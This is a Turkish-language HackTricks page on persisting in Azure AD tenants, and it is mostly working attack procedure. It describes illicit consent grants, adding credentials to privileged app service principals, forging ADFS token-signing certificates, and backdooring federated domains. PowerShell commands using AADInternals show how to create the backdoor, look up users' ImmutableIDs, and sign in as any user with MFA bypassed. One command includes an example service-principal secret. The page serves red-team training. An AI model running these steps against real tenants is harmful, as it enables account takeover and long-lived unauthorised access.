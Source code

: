 # Az - Kalıcılık

{% hint style="success" %}
AWS Hacking'i öğrenin ve uygulayın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarını paylaşarak PR'ler göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
{% endhint %}

### Yasadışı Onay Verme

Varsayılan olarak, herhangi bir kullanıcı Azure AD'de bir uygulama kaydedebilir. Bu nedenle, hedef kiracı için yüksek etkili izinlere ihtiyaç duyan bir uygulama kaydedebilirsiniz (yönetici onayı ile onaylarsanız) - örneğin, bir kullanıcının adına posta gönderme, rol yönetimi vb. Bu, başarılı olması durumunda **çok verimli** olacak **saldırıları yürütmemize** izin verecektir.

Ayrıca, bu uygulamayı kendi kullanıcınızla kabul ederek erişimi sürdürmenin bir yolu olabilir.

### Uygulamalar ve Hizmet İlkeleri

Uygulama Yöneticisi, GA veya microsoft.directory/applications/credentials/update izinleri olan özel bir rol ile kimlik doğrulama bilgilerini (şifre veya sertifika) mevcut bir uygulamaya ekleyebiliriz.

Yüksek izinlere sahip bir uygulamayı hedef almak veya yüksek izinlere sahip yeni bir uygulama eklemek mümkündür.

Uygulamaya eklemek için ilginç bir rol **Ayrıcalıklı kimlik doğrulama yöneticisi rolü** olabilir çünkü bu, **Global Yöneticilerin şifresini sıfırlamaya** izin verir.

Bu teknik ayrıca **MFA'yı atlamaya** olanak tanır.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Sertifika tabanlı kimlik doğrulama için
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
### Federasyon - Token İmzalama Sertifikası

On-prem AD'de **DA ayrıcalıkları** ile, çok uzun bir geçerliliğe sahip olan **yeni Token imzalama** ve **Token Şifreleme sertifikaları** oluşturmak ve bunları içe aktarmak mümkündür. Bu, bize **ImmutableID'sini** bildiğimiz herhangi bir kullanıcı olarak **oturum açmamıza** izin verecektir.

Aşağıdaki komutu **ADFS sunucusunda DA olarak çalıştırın** yeni sertifikalar oluşturmak için (varsayılan şifre 'AADInternals'), bunları ADFS'e ekleyin, otomatik yenilemeyi devre dışı bırakın ve hizmeti yeniden başlatın:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Ardından, Azure AD ile sertifika bilgilerini güncelleyin:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federasyon - Güvenilen Etki Alanı

Bir kiracıda GA ayrıcalıklarıyla, **yeni bir etki alanı eklemek** mümkündür (doğrulanmış olmalı), kimlik doğrulama türünü Federasyon olarak yapılandırmak ve etki alanını **belirli bir sertifikaya güvenen** (aşağıdaki komutta any.sts) ve yayıncıyı yapılandırmak için:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Referanslar

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
AWS Hacking'ı öğrenin ve uygulayın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'ı öğrenin ve uygulayın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarını paylaşarak PR'ler göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
{% endhint %}
